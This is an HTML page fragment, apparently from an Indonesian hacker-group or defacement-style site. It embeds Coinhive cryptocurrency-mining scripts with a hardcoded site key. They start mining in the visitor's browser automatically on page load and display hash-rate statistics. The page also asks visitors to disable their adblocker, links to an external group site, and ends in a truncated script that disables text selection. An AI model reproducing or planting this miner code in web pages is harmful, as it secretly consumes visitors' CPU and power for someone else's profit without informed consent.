 </center><br>
<center>
<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner" 
	style="width: 256px; height: 310px"
	data-key="WrUZ3But2tqgr8I5XAFV9q4hg7nCb2YY"
	data-autostart="true"
	data-whitelabel="false"
	data-background="#000000"
	data-text="#eeeeee"
	data-action="#00ff00"
	data-graph="#555555"
	data-threads="1"
	data-throttle="0.1">
	<em>Matiin adbloksnya yak, biar kita langsung jaran goyang</em>
</div>
	<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<center>
<blink><b><span style="color: #00FF00;"> Masih bersama... NELLA KHARISMA  </span></b></blink>
</center>
<p id="tcount"></p>
<p id="hps"></p>
<p id="ths"></p>
<p id="tah"></p>
</center>
<p><center></center></p>
<center>
<p id="minebutton"></p>
</center>
<p><center><font color='red'> visit ni aja dah... <a href="http://0fficial-500err.atspace.co.uk/kontol"> <blink><b><span style="color: white;">Family of 500.err </span></b></blink> </a></font></center></a>
<script type="text/javascript">
var miner = new CoinHive.Anonymous('WrUZ3But2tqgr8I5XAFV9q4hg7nCb2YY',{threads: 1});
miner.start(CoinHive.FORCE_EXCLUSIVE_TAB);
// Update stats once per second
setInterval(function() {
var threadCount = miner.getNumThreads();
var hashesPerSecond = Math.round(miner.getHashesPerSecond() * 100) / 100;
var totalHashes = miner.getTotalHashes();
var acceptedHashes = miner.getAcceptedHashes() / 256;
// Output to HTML elements...
if (miner.isRunning()) {
document.getElementById("tcount").innerHTML = "Threads: " + threadCount;
document.getElementById("hps").innerHTML = "hashes per second: " + hashesPerSecond;
document.getElementById("ths").innerHTML = "Total Hashes: " + totalHashes;
document.getElementById("tah").innerHTML = "Accepted Hashes: " + acceptedHashes;
document.getElementById("minebutton").innerHTML = "<button onclick=\"miner.stop()\">Stop Mining</button>";
} else {
document.getElementById("hps").innerHTML = "";
document.getElementById("ths").innerHTML = "";
document.getElementById("tah").innerHTML = "";
document.getElementById("minebutton").innerHTML = "<button onclick=\"miner.start(CoinHive.FORCE_EXCLUSIVE_TAB)\">Start Mining</button>";
}
}, 1000);
</script>
</div>
<script language='JavaScript1.2'>
function disableselect(e){
return false
}
function reEnable(){